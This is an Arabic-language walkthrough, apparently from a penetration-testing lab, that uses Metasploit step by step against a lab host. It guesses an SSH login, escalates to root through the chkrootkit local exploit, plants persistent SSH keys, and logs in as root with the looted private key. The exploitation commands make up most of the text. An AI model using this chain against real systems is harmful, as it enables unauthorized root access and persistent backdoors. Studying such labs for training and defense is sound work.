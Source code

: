 ```bash
msfconsole  
use auxiliary/scanner/ssh/ssh_login  
set RHOSTS 192.182.80.3  
set USERNAME jackie  
set PASSWORD password  
run  
```  

طبعا لان قال انه ناجح وانه قدر يدخل وكذالك فتح لنا session راح نجرب ندخل عليه  
```bash
sessions -u 1 [to elevate your session from shell to meterpreter session]  
```  

طبعا الان اخذنا meterpreter session راح الان نشوف موديول الـ chkrootkit  

طبعا لابد ندخل عشان نعرف المسار لكن بنختصر ونفتح الموديول ونكتب المسار علطول لاننا نعرفه  
```bash
use exploit/unix/local/chkrootkit  
set SESSION 2 [select the meterpreter session ID]  
set CHKROOTKIT /bin/chkrootkit  
run  
```  

طبعا الان عطنا الـ session 3 والي هي عن طريق الـ chkrootkit  
راح نحاول نرفعها الى meterpreter session  
```bash
sessions -u 3  
```  

طبعا الان قدرنا نرقيها الى الـ meterpreter session  
الان راح نستخدم الـ sshkey_persistence  

```bash
use post/linux/manage/sshkey_persistence  
set SESSION 4  
set CREATESSHFOLDER true  
exploit  
```  

ونشوف انه اضاف لنا بعض المفاتيح لاكثر من يوزر طبعا نكتب هذا الامر عشان نشوف وين حفظ لنا هذي المفاتيح  

```bash
loot  
```  

نشوف انه عطانا وين حفظهم لنا ونوعهم id_rsa وغيرها من المعلومات ف نقدر نسوي cat الان ونقرا الـ private key بدون مشاكل  

الان نجرب نفتح تاب جديده ونتصل عن طريق الـ SSH باستخدام الـ private key الي سواها لنا الموديول  

طبعا او شي لازم نغير صلاحيات الملف الي فيه المفتاح  
```bash
chmod 0400 ssh_kay  
```  

بعدها ننفذ الامر هذا بحيث نتصل على التارقت عن طريق الـ SSH باستخدام الـ private kay او بالاصح authorized_kays  
```bash
ssh -i ssh_key root@192.182.80.3  
```  
